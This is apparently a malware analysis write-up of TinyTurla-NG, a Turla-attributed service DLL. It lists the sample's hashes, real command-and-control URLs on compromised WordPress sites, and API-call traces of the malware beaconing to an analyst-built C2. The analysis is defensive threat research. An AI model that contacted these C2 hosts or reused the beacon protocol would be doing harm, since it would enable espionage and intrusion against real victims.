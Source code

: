 SHA256 : 267071DF79927ABD1E57F57106924DD8A68E1C4ED74E7B69403CDCDF6E6A453B  
sample source : https://bazaar.abuse.ch/sample/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b/  
VT : https://www.virustotal.com/gui/file/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b  
Report: https://blog.talosintelligence.com/tinyturla-next-generation/  


C2 :  
https://thefinetreats.com/wp-content/themes/twentyseventeen/rss-old.php  
https://hanagram.jp/wp/wp-content/themes/hanagram/rss-old.php  

Analyzed sample is a 64bit Service DLL attributed to TURLA by TALOS and named TinyTurla-NG.

Results are shared in two files :

    logs.txt which contains an execution trace of the malware until it connects to a C2 and execute 2 chosen commands
    conf.txt which contains the configuration used to analyse this sample, notably the list of API call filtered from the logs

**Commentary**

Analysed sample is already well described in the TALOS report so I won't go into details.  
For this analysis, I chose to rebuild a small C2 and order the malware to execute the following commands while supervised :  

- dir C:\users  
- get https://hanagram.jp/hanagram.cert toto.cer  

---

First Beaconing to a reachable C2 :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803410
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4850
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66b470
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F668
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F2C6E40
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F5920B0
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F2C6E40
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xbe
[RET] 0x7fff146bd38b in [tinyturla.dll]

Thread created by monitored process : Now monitoring [pid 0x254][tid 0x2d4]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F5920B0
[PAR] LPCVOID   lpBuffer                 : 0x000000F43F8AE4C0
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "Client Ready" <-- Ready for buisiness>
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xbe
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F6C0
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```

As mentionned in the report the first beaconing contains the "Client Ready" message to signal the C2 that the is malware is up and ready to receive orders.  

---  

With the following 'gettask' message, the malware is offering the C2 an opportunity to reply with an order :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803dc0
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4E50
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66aad0
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F728
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F3BD070
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F370140
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F3BC580
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xaf
[RET] 0x7fff146bd38b in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F370140
[PAR] LPCVOID   lpBuffer                 : 0x000000F43E806620
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="gettask""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xaf
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F780
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```
---  



